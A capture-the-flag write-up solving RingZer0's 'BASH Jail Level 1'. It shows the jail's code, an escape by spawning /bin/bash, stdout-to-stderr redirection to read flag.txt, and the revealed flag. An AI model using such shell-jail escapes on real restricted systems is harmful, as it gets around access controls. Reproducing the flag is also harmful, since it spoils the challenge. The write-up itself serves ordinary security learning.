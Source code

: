 # **Jail 1**

![](https://i.imgur.com/hBRN91L.png)

```
ubuntu@ubuntu-virtual-machine:~$ ssh level1@challenges.ringzer0team.com -p 10218 
The authenticity of host '[challenges.ringzer0team.com]:10218 ([78.109.87.50]:10218)' can't be established.
ECDSA key fingerprint is SHA256:gJjkCupg596odLvqiT3qRhgElHttbotOA6m3sn3BDEY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[challenges.ringzer0team.com]:10218,[78.109.87.50]:10218' (ECDSA) to the list of known hosts.
level1@challenges.ringzer0team.com's password: 

RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
	echo "Your input:"
	read input
	output=`$input`
done 

-----------------------------
Your input:
```

```
Your input:
ls
Your input:
cat flag.txt
Your input:
```

No feedback(still in process), let's execute bash to try to get some feedback.

```
Your input:
/bin/bash
level1@lxc17-bash-jail:~$ 
```

We now get rid of process, let's use bash to cat the flag.

```
level1@lxc17-bash-jail:~$ ls 1>&2
flag.txt  prompt.sh
level1@lxc17-bash-jail:~$ cat flag.txt 1>&2
FLAG-U96l4k6m72a051GgE5EN0rA85499172K
```

`1>&2` means redirect stdout to stderr, it outputs the message to stderr.

